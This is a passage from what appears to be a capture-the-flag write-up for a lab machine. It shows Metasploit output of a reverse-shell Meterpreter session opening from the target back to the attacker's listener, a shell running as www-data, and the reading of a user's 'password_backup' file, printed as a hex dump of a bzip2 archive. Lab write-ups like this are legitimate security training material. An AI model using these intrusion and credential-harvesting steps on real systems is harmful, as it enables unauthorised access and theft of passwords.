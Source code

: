 Getting a shell:

```
[*] Started reverse TCP handler on 10.10.14.23:4444
[*] Sending stage (37775 bytes) to 10.10.10.150
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.150:56220) at 2018-10-27 16:33:27 -0400

meterpreter > sessions 1
[*] Session 1 is already interactive.
meterpreter > shell
Process 2047 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Escalate to user Floris

User `floris` has a readable file `password_backup`

```
cd /home/floris
ls
admin-area
password_backup
user.txt
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

This appears to be a bzip2 file but we need to put it back in binary format first, we'll use CyberChef for this:

